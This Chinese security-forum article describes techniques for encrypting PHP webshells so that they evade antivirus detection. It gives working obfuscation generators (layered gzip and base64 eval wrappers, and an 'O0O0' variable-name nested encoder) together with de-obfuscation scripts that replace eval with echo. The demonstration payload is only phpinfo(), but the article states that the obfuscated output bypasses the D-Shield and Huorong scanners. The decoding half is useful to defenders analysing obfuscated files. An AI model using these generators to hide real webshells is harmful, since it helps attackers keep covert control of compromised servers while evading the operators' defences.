




# webshell加密免杀探究-先知社区

> **来源**: https://xz.aliyun.com/news/16532  
> **文章ID**: 16532

---

## 基础wenshell加密：Gzip+Base64

实例使用如下

```
<?php 
eval(gzinflate(base64_decode('40pNzshXKMgoyMxLy9fQtFawtwMA'))); 
?>

```



### 加密方法

我们先新建一个PHP文件，名字为 `phpinfo.php` ，里面放上要执行的代码

```
<?php
echo phpinfo();
?>

```

再建一个`encipher.php` ，实现对php文件内容的加密

```
<?php
function encode_file_contents($filename) {
    $type=strtolower(substr(strrchr($filename,'.'),1));
    if('php'==$type && is_file($filename) && is_writable($filename)) {
        // 如果是PHP文件 并且可写 则进行压缩编码
        $contents = file_get_contents($filename);
        // 判断文件是否已经被编码处理


            // 去除PHP文件注释和空白，减少文件大小
            $contents = php_strip_whitespace($filename);
            // 去除PHP头部和尾部标识
            $headerPos = strpos($contents,'<?php');
            $footerPos = strrpos($contents,'?>');
            $contents = substr($contents,$headerPos+5,$footerPos-$headerPos);
            $encode = base64_encode(gzdeflate($contents));
            // 开始编码
            $encode = '<?php'."\neval(gzinflate(base64_decode('".$encode."'))); \n?>";
            return file_put_contents($filename,$encode);

    }
    return false;
}
//调用函数
$filename='phpinfo.php';
//这里填入需要加密的原始PHP文件名
encode_file_contents($filename);
?>

```

访问 `encipher.php` ，然后再看 `phpinfo.php` 里面的内容已经被加密了，当然可以运行多次加密，来多层加密。

### 解密方法

`eval(str_replace('eval', 'echo', $a))` 会执行 `$a` 中的 PHP 代码，但它首先将 `eval` 替换为 `echo`，然后输出解码的结果，最多循环300此来解密出最终的执行函数

```
<?php
//放入已经加密的PHP内容
$a = "eval(gzinflate(base64_decode('40pNzshXKMgoyMxLy9fQtFawtwMA')));";
function decodephp($a)
{
    $max_level = 300; //最大层数
    for ($i = 0; $i < $max_level; $i++) {
        ob_start();
        eval(str_replace('eval', 'echo', $a));
        $a = ob_get_clean();
        if (strpos($a, 'eval(gzinflate(base64_decode') === false) {
            return $a;
        }
    }
}
//这里注意要加htmlspecialchars，我看好多文章没写
echo htmlspecialchars(decodephp($a));  
?>

```

## 高级Gzip+Base64加密

这是上一种加密的进阶版，主要表现在有个循环，看代码：

```
<?php
function iJG($BHM) { 
$BHM=gzinflate(base64_decode($BHM));
for($i=0;$i<strlen($BHM);$i++) {
$BHM[$i] = chr(ord($BHM[$i])-1);
}
return $BHM;
} 
eval(iJG("U1QEAm4QkVaelKupmhAYEBIao1yYVFJSUVCcqhynZcPtYA8A"));
?>

```

### 解密方法

由以上代码可以看出，这是先将 `U1QEAm4QkVaelKupmhAYEBIao1yYVFJSUVCcqhynZcPtYA8A` Base64解密后进行Gzip处理，再将解密后的值膨胀。

将 `eval` 函数 改为 `echo` 就可以把解密后的PHP代码回显出来了

```
<?php
function iJG($BHM) { 
$BHM=gzinflate(base64_decode($BHM));
for($i=0;$i<strlen($BHM);$i++) {
$BHM[$i] = chr(ord($BHM[$i])-1);
}
return $BHM;
} echo(iJG("U1QEAm4QkVaelKupmhAYEBIao1yYVFJSUVCcqhynZcPtYA8A"));
?>

```



## 0o0o嵌套混淆

第一次看到这种加密，手动解密非常困难，在实际情况中遇到过上百行的这种嵌套加密方式，先来看一个简单的样例：

```
<?php
$O00OO0 = urldecode(
    "%6E1%7A%62%2F%6D%615%5C%76%740%6928%2D%70%78%75%71%79%2A6%6C%72%6B%64%679%5F%65%68%63%73%77%6F4%2B%6637%6A"
);
$O00O0O = $O00OO0[3] . $O00OO0[6] . $O00OO0[33] . $O00OO0[30];
$O0OO00 = $O00OO0[33] . $O00OO0[10] . $O00OO0[24] . $O00OO0[10] . $O00OO0[24];
$OO0O00 =
    $O0OO00[0] .
    $O00OO0[18] .
    $O00OO0[3] .
    $O0OO00[0] .
    $O0OO00[1] .
    $O00OO0[24];
$OO0000 = $O00OO0[7] . $O00OO0[13];
$O00O0O .=
    $O00OO0[22] .
    $O00OO0[36] .
    $O00OO0[29] .
    $O00OO0[26] .
    $O00OO0[30] .
    $O00OO0[32] .
    $O00OO0[35] .
    $O00OO0[26] .
    $O00OO0[30];

eval(
    $O00O0O(
        "JE8wTzAwMD0iU0VCb1d4VGJ2SGhRTnFqeW5JUk1jbWxBS1lrWnVmVkpVQ2llYUxkc3J0Z3dGWER6cEdPUFdMY3NrZXpxUnJBVUtCU2hQREdZTUZOT25FYmp0d1pwYVZRZEh5Z0NJdnhUSmZYdW9pbWw3N3QvbFg5VEhyT0tWRlpTSGk4eE1pQVRIazVGcWh4b21UMG5sdTQ9IjtldmFsKCc/PicuJE8wME8wTygkTzBPTzAwKCRPTzBPMDAoJE8wTzAwMCwkT08wMDAwKjIpLCRPTzBPMDAoJE8wTzAwMCwkT08wMDAwLCRPTzAwMDApLCRPTzBPMDAoJE8wTzAwMCwwLCRPTzAwMDApKSkpOw=="
    )
);
?>

```

### 解密方法

因为里面参数众多，而我们要先看重要参数里面到底有什么： 因为最终解密的代码在eval里面执行直接看最后的  
关键就在 `$O00O0O` 这个里面，那老方法echo出来：

```
<?php

$O00OO0 = urldecode(
    "%6E1%7A%62%2F%6D%615%5C%76%740%6928%2D%70%78%75%71%79%2A6%6C%72%6B%64%679%5F%65%68%63%73%77%6F4%2B%6637%6A"
);

$O00O0O = $O00OO0[3] . $O00OO0[6] . $O00OO0[33] . $O00OO0[30];
$O0OO00 = $O00OO0[33] . $O00OO0[10] . $O00OO0[24] . $O00OO0[10] . $O00OO0[24];
$OO0O00 =
    $O0OO00[0] .
    $O00OO0[18] .
    $O00OO0[3] .
    $O0OO00[0] .
    $O0OO00[1] .
    $O00OO0[24];
$OO0000 = $O00OO0[7] . $O00OO0[13];
$O00O0O .=
    $O00OO0[22] .
    $O00OO0[29] .
    $O00OO0[26] .
    $O00OO0[30] .
    $O00OO0[32] .
    $O00OO0[35] .
    $O00OO0[26] .
    $O00OO0[30];

echo $O00O0O . "\n";

$a = ($O00O0O(

    "JE8wTzAwMD0iU0VCb1d4VGJ2SGhRTnFqeW5JUk1jbWxBS1lrWnVmVkpVQ2llYUxkc3J0Z3dGWER6cEdPUFdMY3NrZXpxUnJBVUtCU2hQREdZTUZOT25FYmp0d1pwYVZRZEh5Z0NJdnhUSmZYdW9pbWw3N3QvbFg5VEhyT0tWRlpTSGk4eE1pQVRIazVGcWh4b21UMG5sdTQ9IjtldmFsKCc/PicuJE8wME8wTygkTzBPTzAwKCRPTzBPMDAoJE8wTzAwMCwkT08wMDAwKjIpLCRPTzBPMDAoJE8wTzAwMCwkT08wMDAwLCRPTzAwMDApLCRPTzBPMDAoJE8wTzAwMCwwLCRPTzAwMDApKSkpOw=="

));

echo $a;

```



之后把输出的第二层的混淆代码，放进文件，然后将eval换位echo

```
<?php

$O00OO0 = urldecode(

    "%6E1%7A%62%2F%6D%615%5C%76%740%6928%2D%70%78%75%71%79%2A6%6C%72%6B%64%679%5F%65%68%63%73%77%6F4%2B%6637%6A"

);

$O00O0O = $O00OO0[3] . $O00OO0[6] . $O00OO0[33] . $O00OO0[30];

$O0OO00 = $O00OO0[33] . $O00OO0[10] . $O00OO0[24] . $O00OO0[10] . $O00OO0[24];

$OO0O00 =

    $O0OO00[0] .

    $O00OO0[18] .

    $O00OO0[3] .

    $O0OO00[0] .

    $O0OO00[1] .

    $O00OO0[24];

$OO0000 = $O00OO0[7] . $O00OO0[13];

$O00O0O .=

    $O00OO0[22] .

    $O00OO0[36] .

    $O00OO0[29] .

    $O00OO0[26] .

    $O00OO0[30] .

    $O00OO0[32] .

    $O00OO0[35] .

    $O00OO0[26] .

    $O00OO0[30];

$O0O000 = "SEBoWxTbvHhQNqjynIRMcmlAKYkZufVJUCieaLdsrtgwFXDzpGOPWLcskezqRrAUKBShPDGYMFNOnEbjtwZpaVQdHygCIvxTJfXuoiml77t/lX9THrOKVFZSHi8xMiATHk5FqhxomT0nlu4=";

echo htmlspecialchars('?>' . $O00O0O($O0OO00($OO0O00($O0O000, $OO0000 * 2), $OO0O00($O0O000, $OO0000, $OO0000), $OO0O00($O0O000, 0, $OO0000))));

```

输出即为

```
<?php
phpinfo();

```

### 0o0o嵌套混淆方法

先新建一个待混淆的文件

```
<?php
echo phpinfo();
?>

```

然后再建一个混淆功能的php ：

```
<?php
function RandAbc($length=""){//返回随机字符串
$str="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";
return str_shuffle($str);
}

$filename='phpinfo.php';  //这里填入需要加密的原始PHP文件名
$T_k1=RandAbc();//随机密匙1
$T_k2=RandAbc();//随机密匙2

$vstr=file_get_contents($filename);//要加密的文件

$v1=base64_encode($vstr);
$c=strtr($v1,$T_k1,$T_k2);//根据密匙替换对应字符。
$c=$T_k1.$T_k2.$c;

$q1="O00O0O";
$q2="O0O000";
$q3="O0OO00";
$q4="OO0O00";
$q5="OO0000";
$q6="O00OO0";

$s='$'.$q6.'=urldecode("%6E1%7A%62%2F%6D%615%5C%76%740%6928%2D%70%78%75%71%79%2A6%6C%72%6B%64%679%5F%65%68%63%73%77%6F4%2B%6637%6A");$'.$q1.'=$'.$q6.'{3}.$'.$q6.'{6}.$'.$q6.'{33}.$'.$q6.'{30};$'.$q3.'=$'.$q6.'{33}.$'.$q6.'{10}.$'.$q6.'{24}.$'.$q6.'{10}.$'.$q6.'{24};$'.$q4.'=$'.$q3.'{0}.$'.$q6.'{18}.$'.$q6.'{3}.$'.$q3.'{0}.$'.$q3.'{1}.$'.$q6.'{24};$'.$q5.'=$'.$q6.'{7}.$'.$q6.'{13};$'.$q1.'.=$'.$q6.'{22}.$'.$q6.'{36}.$'.$q6.'{29}.$'.$q6.'{26}.$'.$q6.'{30}.$'.$q6.'{32}.$'.$q6.'{35}.$'.$q6.'{26}.$'.$q6.'{30};eval($'.$q1.'("'.base64_encode('$'.$q2.'="'.$c.'";eval(\'?>\'.$'.$q1.'($'.$q3.'($'.$q4.'($'.$q2.',$'.$q5.'*2),$'.$q4.'($'.$q2.',$'.$q5.',$'.$q5.'),$'.$q4.'($'.$q2.',0,$'.$q5.'))));').'"));';

$s='<?php
'.$s.'
?>';

echo $s;

//生成 加密后的PHP文件
$fpp1=fopen('temp'.$filename,'w');
fwrite($fpp1,$s) or die('写文件错误');
?>

```

**密钥的作用**：

* `T_k1` 是原始字母表。
* `T_k2` 是替换后的字母表，形成一一对应的替换规则。

混淆后即为

```
<?php

$O00OO0 = urldecode("%6E1%7A%62%2F%6D%615%5C%76%740%6928%2D%70%78%75%71%79%2A6%6C%72%6B%64%679%5F%65%68%63%73%77%6F4%2B%6637%6A");

$O00O0O = $O00OO0{

    3} . $O00OO0{

    6} . $O00OO0{

    33} . $O00OO0{

    30};

$O0OO00 = $O00OO0{

    33} . $O00OO0{

    10} . $O00OO0{

    24} . $O00OO0{

    10} . $O00OO0{

    24};

$OO0O00 = $O0OO00{

    0} . $O00OO0{

    18} . $O00OO0{

    3} . $O0OO00{

    0} . $O0OO00{

    1} . $O00OO0{

    24};

$OO0000 = $O00OO0{

    7} . $O00OO0{

    13};

$O00O0O .= $O00OO0{

    22} . $O00OO0{

    36} . $O00OO0{

    29} . $O00OO0{

    26} . $O00OO0{

    30} . $O00OO0{

    32} . $O00OO0{

    35} . $O00OO0{

    26} . $O00OO0{

    30};

eval($O00O0O("JE8wTzAwMD0iaUxGa3pNV0hnc2NYaFBCanZJcnhxeU91R2FkVkNtdFlUUW93bEFEZkVOS2VwVVJuYkpaU2p2eFNVZ0tNcFhuaVZJYW95d0NXc05CYlBKUVJ6bWhxdFlHRGtFcmRUZmxPRkx1QUhaZWNJcjlESk1FbHpBYUduUGtiZW04R2x0WGwiO2V2YWwoJz8+Jy4kTzAwTzBPKCRPME9PMDAoJE9PME8wMCgkTzBPMDAwLCRPTzAwMDAqMiksJE9PME8wMCgkTzBPMDAwLCRPTzAwMDAsJE9PMDAwMCksJE9PME8wMCgkTzBPMDAwLDAsJE9PMDAwMCkpKSk7"));

```

经测试能够过D盾和火绒杀毒


